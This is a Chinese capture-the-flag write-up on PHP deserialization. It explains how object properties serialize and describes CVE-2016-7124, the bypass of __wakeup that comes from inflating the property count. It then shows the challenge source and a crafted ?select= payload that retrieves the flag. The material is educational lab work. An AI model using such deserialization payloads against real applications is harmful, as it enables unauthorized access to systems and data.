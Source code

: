 PHP反序列化

### 几个前置知识：

1、序列化数据显示：

public属性序列化的时候格式是正常的

private属性序列化的时候格式是`%00类名%00成员名`

protected属性序列化的时候格式是`%00*%00成员名`

例如这样的：

```php
class Name{
    public $username = 'admin';
    public $password = '100';
}

$pop = new Name;
echo serialize($pop);
?>
// private： 如果输出的没有%00 自己需要补充一下
// O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}

// public:
// O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";s:3:"100";}
```

2、

**漏洞编号**: CVE-2016-7124

**影响版本**: PHP 5 < 5.6.25; PHP 7 < 7.0.10

**漏洞危害**

当一个对象被序列化后，如果该对象的类定义中存在`__wakeup`方法，在调用`unserialize()`函数反序列化该对象时，会先执行`__wakeup`方法。这是为了在对象恢复到内存中时能够进行一些初始化操作。

然而，这个漏洞指出，**如果序列化字符串中表示对象属性个数的值大于实际存在的属性个数，那么`__wakeup`方法将不会被执行**。这意味着攻击者可以通过构造特殊的序列化字符串来绕过`__wakeup`方法的执行，从而可能引发安全问题。

### 题目：

www.zip泄漏源码

class.php:

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

index.php:

```php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

`__wakeup()`是在调用unserialize()时触发，会把username置为guest，导致无法输出flag，要想绕过`__wakeup()`，需要序列化字符串中表示对象属性个数的值大于实际存在的属性个数

构造：

```php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$pop = new Name;
echo serialize($pop);
?>
// O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";s:3:"100";}
    //把空格换成%00
    // O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
    // 然后把2换成3
    // O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

```
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

